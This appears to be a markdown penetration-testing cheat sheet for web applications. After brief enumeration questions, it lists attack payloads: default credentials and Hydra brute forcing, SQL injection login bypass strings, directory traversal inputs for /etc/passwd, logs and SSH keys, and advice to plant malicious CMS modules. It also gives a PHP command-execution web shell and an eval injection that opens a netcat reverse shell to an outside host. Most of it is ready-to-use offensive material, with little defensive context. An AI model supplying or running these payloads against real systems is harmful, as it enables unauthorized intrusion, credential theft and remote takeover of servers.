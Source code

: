 
# Web Application Assessment Methodology
---

To start pen-testing a web application you must go with the mindset like this  : 
# Web Application Assessment Methodology
---
- What does the application do?
- What language is it written in?
- What server software is the application running on? 

# Web Application Enumeration
---
This part is where we must know the information about the software and stuff
- Programming language and frameworks
- Web Server Software
- Database software
- Server Operating System

# Web Checklist
---
This is a checklist for the default stuff in the web pen testing it's so interesting!

```bash
# Default Credentials
- /robots.txt
- admin/admin, admin/password, admin/machine-name, machine-name/machine-name
- Search on google for default credential of the application
- Hydra
- /Fuzz - applciation/Fuzz - index.php/fuzz
- Fuzz with extension(.txt,.conf,txt,html,php,asp,aspx,jsp,db,sql,exe,config,db
bak,cgi,ps1,py,ini,js,sh,.php,.txt,.json,.html
- SQL Bypass Auth
- Entry Point: ' '' ` ') ") `) ')) ")) `)) 
- Password Field: ' || ''==' ( No SQL Injection Payload )
- admin' or 1==1 
- ' or 1=1 -- -
- ' || 1=1 -- -
- whatweb -v
- Customize login password with array  (username=admin&password[]=)
- /index.[php,html,asp.aspx] or /randomthing-get-error
- LFI / Directory Traversal -> SSH key
- LFI / Configuration of Service File
- Checking eval() 2+2 2*2
- Checking with POST request
- WordPress Plugin vulnerable
- Check Source Code to Find Plugin install
- Looking for hostname and Zone Transfer
- ?file=/etc/passwd (absolute path)
- ?file=../../../etc/passwd - ?file=../../../../etc/passwd
- ?file=../../../../var/log/apache2/access.log
- ?file=../../../../var/www/html/index.php
```

**Also this included :**
```bash
#Success Login
- Version (Exploit-db)
- File Upload
- User privilege might change 
- Code execution directly a new post/page
- Module? Extension? Addons?
- Create own Module, extension, addone (Malicious)
- Access through CMS to sensitive database information credentaisl
- Can we schedule any system level jobs?
- Escalate to Administration privilege
- Diagnostic Tools - System Level Execute?
- Configuration File?
- Modify or Inject php code on existing file?
<?php
<pre>
passthru($_GET['cmd']);
</pre>
?>
- page=index');eval('phpinfo();');#
- page=index');eval("(system('nc 10.10.10.10 443 -e /bin/bash');");#

```
